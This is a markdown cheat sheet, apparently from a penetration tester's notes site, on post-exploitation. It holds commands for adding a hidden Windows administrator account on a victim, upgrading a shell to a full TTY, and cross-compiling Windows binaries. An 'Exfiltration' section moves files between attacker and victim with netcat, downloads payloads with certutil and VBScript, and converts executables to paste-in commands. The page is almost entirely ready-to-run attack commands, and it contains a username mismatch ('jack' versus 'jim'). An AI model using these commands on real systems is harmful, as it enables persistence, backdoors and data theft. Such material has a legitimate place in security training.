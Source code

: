 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

+ SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

+ Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

+ exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

+ certutil.exe

```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

+ [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]

```bash
CScript zip.vbs $SRC $DEST
```

+ [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]

```bash
CScript wget.vbs $SRC $DEST
```